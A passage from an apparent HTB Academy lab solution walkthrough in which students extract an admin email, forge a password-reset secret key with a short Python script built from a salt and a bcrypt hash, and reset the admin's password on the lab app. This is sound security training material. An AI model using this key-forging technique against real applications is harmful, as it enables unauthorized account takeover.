 After running the script, students will attain the email `admin@pass2.htb`:

Code: shell

```shell
python3 poc.py
```

```
┌─[us-academy-1]─[10.10.14.189]─[htb-ac-413848@htb-mvfnzfbewn]─[~/Pass2SourceCode]
└──╼ [★]$ python3 poc.py

admin@pass2.htb
```

Now that students have both the password and email, they need to construct the "secretKey" to reset the `admin` password, based on the commands ran in the `calculateSecretKey` function within the controller `ResetPasswordController`:

Code: python

```python
import hashlib
import base64

tmp = "admin@pass2.htb" + "$4lty" + "$2a$12$QZzWJum2XkulScJtJDrZz.GFpVRjKgU.Sq7Ov1.mWYyn0W8YhIQgG"
encodedHash = hashlib.sha256(tmp.encode("utf-8")).digest()
b64 = base64.b64encode(encodedHash).decode().replace("-", "X").replace("_", "X").replace("=","")
secretKey = f"{b64[:4]}-{b64[4:8]}-{b64[8:12]}-{b64[12:16]}"
print(secretKey)
```

After running the script, students will attain the secret key `0NPd-748b-L2CD-MoR3`:

Code: shell

```shell
python3 constructSecretKey.py
```

```
┌─[us-academy-1]─[10.10.14.189]─[htb-ac-413848@htb-mvfnzfbewn]─[~]
└──╼ [★]$ python3 constructSecretKey.py

0NPd-748b-L2CD-MoR3
```

Therefore, students now need to navigate to `http://STMIP:8080/reset-password` to reset the password of the admin:

![[HTB Solutions/CWEE/z. images/5d593051c38636672189b4a7b8e71347_MD5.jpg]]

It is always a good practice to use cryptographically secure passwords to disallow other threat agents from gaining access, to do so, students can use `openssl` to generate one:

Code: shell

```shell
openssl rand -hex 16
```
